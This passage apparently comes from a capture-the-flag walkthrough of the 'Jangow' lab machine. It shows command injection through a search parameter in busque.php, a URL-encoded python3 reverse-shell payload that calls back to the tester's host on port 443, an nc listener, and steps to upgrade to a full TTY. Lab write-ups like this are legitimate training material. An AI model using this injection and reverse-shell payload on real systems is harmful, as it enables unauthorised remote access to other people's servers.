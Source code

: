 Both times yield empty results. Let's try to check for simple `RCE`.

```bash
┌─[user@parrot]─[~/Documents/jangow]
└──╼ $curl http://192.168.1.189/site/busque.php?buscar=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

And we have `RCE`!

## User Flag

Knowing we now have `RCE`, let's set up a listener on our machine using and attempt to catch a `reverse shell`. Trying a variety of `reverse shell` one-liners was uncessessful on different ports, however, eventually I was able to recieve a shell using `python3` on port `443`, being sure to also `url encode` the command.

```bash
┌─[user@parrot]─[~/Documents/jangow]
└──╼ $curl "http://192.168.1.189/site/busque.php?buscar=python3%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.73%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27"

...

┌─[✗]─[user@parrot]─[~/Documents/jangow]
└──╼ $sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.73] from (UNKNOWN) [192.168.1.189] 47732
www-data@jangow01:/var/www/html/site$
```

Next, using `python3` and some magic, we can upgrade our shell to a full `tty`.

```bash
www-data@jangow01:/var/www/html/site$ python3 -c 'import pty; pty.spawn("/bin/bash");'
<html/site$ python3 -c 'import pty; pty.spawn("/bin/bash");'
```

Then we can `bg` the shell using `CTRL-Z` then run `stty echo -raw`, then return the shell to the `fg`, and press `ENTER` twice.

```bash
www-data@jangow01:/var/www/html/site$ ^Z
[1]+  Stopped                 sudo nc -lvnp 443
┌─[✗]─[user@parrot]─[~/Documents/jangow]
└──╼ $stty raw -echo
┌─[user@parrot]─[~/Documents/jangow]
sudo nc -lvnp 443

www-data@jangow01:/var/www/html/site$
```

Now, let's begin enumerating some of the web directories.

